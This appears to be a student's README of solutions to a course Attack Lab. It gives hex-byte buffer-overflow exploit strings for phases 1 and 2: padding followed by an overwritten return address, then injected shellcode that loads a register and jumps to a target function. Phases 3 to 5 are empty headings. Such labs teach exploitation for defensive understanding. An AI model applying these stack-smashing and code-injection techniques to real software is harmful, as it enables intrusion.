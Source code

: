 # attack_lab
see assignment details at attacklab.pdf.
see guide at https://github.com/magna25/Attack-Lab/blob/master.

## phase 1 solution
```
// 40 bytes
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
// address of touch1 (8 bytes)
74 16 40 00 00 00 00 00
```

## phase 2 solution
```
// injected code with total 40 bytes
48 c7 c7 1f 25 3c 37 c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
// address of register and touch2
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00 
```

## phase 3 solution

## phase 4 solution

## phase 5 solution
